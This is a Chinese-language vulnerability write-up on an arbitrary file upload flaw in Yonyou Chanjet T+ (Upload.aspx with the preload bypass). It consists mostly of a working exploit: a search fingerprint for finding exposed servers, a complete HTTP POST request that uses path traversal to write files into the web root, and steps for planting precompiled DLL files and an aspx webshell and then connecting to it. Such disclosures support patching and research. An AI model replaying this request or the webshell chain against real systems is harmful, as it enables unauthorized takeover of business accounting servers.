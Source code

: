 # 

# 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

```
用友 畅捷通T+
```

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![1](./images/202209131041324.png)

存在漏洞的接口为`/tplus/SM/SetupAccount/Upload.aspx`, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![2](./images/202209131041333.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![3](./images/202209131041137.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![6](./images/202209131042534.png)

![4](./images/202209131042543.png)

![5](./images/202209131042554.png)

再访问写入的Webshell进行连接

```
/tplus/shell.aspx?preload=1	
```
